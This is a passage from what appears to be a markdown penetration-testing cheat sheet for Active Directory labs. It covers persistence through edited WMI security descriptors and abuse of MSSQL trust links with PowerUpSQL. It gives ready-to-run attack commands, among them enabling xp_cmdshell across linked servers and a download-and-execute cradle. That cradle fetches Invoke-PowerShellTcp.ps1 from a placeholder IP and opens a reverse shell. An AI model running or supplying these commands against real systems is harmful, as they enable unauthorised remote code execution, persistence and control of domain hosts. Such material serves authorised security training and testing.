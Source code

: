 ## Security Descriptors
>It is possible to modify Security Descriptors (security information like Owner, primary group, DACL and SACL) of multiple remote access methods (securable objects) to allow access to non-admin users. Security Descriptor Definition Language defines the format which is used to describe a security descriptor. SDDL uses ACE strings for DACL and SACL:
>ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid
```powershell
# Admin privileges required*
# On local machine for student1:
Set-RemoteWMI -SamAccountName student1 -Verbose

# On remote machine for student1 without explicit credentials:
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose

# On remote machine with explicit credentials. Only root\cimv2 and nested namespaces:
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -Credential Administrator -namespace 'root\cimv2' -Verbose

# On remote machine remove permissions:
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc-namespace 'root\cimv2' -Remove -Verbose
```

>[Up](#table-of-contents) :arrow_up:
# Trust Abuse
## MSSQL Servers
```powershell
# Module PowerUpSQL
# SPN Scanning
Get-SQLInstanceDomain

# Accessibility
Get-SQLConnectionTestThreaded

# Information
Get-SQLServerInfo -Verbose

# Search Links
Get-SQLServerLink -Instance [SPN] -Verbose

# Exec commands
Execute(‘sp_configure “xp_cmdshell”,1;reconfigure;’) AT “<sql instance>”
Get-SQLServerLinkCrawl -Instance <sql instance> -Query "exec master..xp_cmdshell 'whoami'"
Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query "exec master..xp_cmdshell 'Powershell.exe iex (iwr http://[IP]/Invoke-PowerShellTcp.ps1 -UseBasicParsing);reverse -Reverse -IPAddress [IP] -Port [Port]'"

```
>[Up](#table-of-contents) :arrow_up:
